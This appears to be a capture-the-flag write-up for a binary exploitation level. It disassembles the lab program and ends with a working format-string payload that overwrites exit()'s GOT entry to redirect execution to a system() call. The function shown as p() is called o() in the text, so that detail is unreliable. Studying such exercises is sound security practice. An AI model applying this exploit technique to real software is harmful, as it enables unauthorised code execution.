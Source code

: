 # Level 5

## Step 1 : ASM analysis

### n()

```
   0x080484c2 <+0>:	push   ebp
   0x080484c3 <+1>:	mov    ebp,esp
   0x080484c5 <+3>:	sub    esp,0x218
   0x080484cb <+9>:	mov    eax,ds:0x8049848
   0x080484d0 <+14>:	mov    DWORD PTR [esp+0x8],eax
   0x080484d4 <+18>:	mov    DWORD PTR [esp+0x4],0x200
   0x080484dc <+26>:	lea    eax,[ebp-0x208]
   0x080484e2 <+32>:	mov    DWORD PTR [esp],eax
   0x080484e5 <+35>:	call   0x80483a0 <fgets@plt>
   0x080484ea <+40>:	lea    eax,[ebp-0x208]
   0x080484f0 <+46>:	mov    DWORD PTR [esp],eax
   0x080484f3 <+49>:	call   0x8048380 <printf@plt>
   0x080484f8 <+54>:	mov    DWORD PTR [esp],0x1
   0x080484ff <+61>:	call   0x80483d0 <exit@plt>
```

### p()

```
   0x080484a4 <+0>:	push   ebp
   0x080484a5 <+1>:	mov    ebp,esp
   0x080484a7 <+3>:	sub    esp,0x18
   0x080484aa <+6>:	mov    DWORD PTR [esp],0x80485f0
   0x080484b1 <+13>:	call   0x80483b0 <system@plt>
   0x080484b6 <+18>:	mov    DWORD PTR [esp],0x1
   0x080484bd <+25>:	call   0x8048390 <_exit@plt>
```

Same idea than the last 2 levels. Here we go straight into an `exit()` after the printf call, so we have to find a way to call the `o()` function.

### exit() (not a runtime)

```
(gdb) disas exit
Dump of assembler code for function exit@plt:
   0x080483d0 <+0>:	jmp    *0x8049838
   0x080483d6 <+6>:	push   $0x28
   0x080483db <+11>:	jmp    0x8048370
End of assembler dump.
```

We need to change the value at `0x8049838` to the `o()` address.

## Solution

```
python -c 'print "\x38\x98\x04\x08" + "%134513824d" + "%4$n"'
```
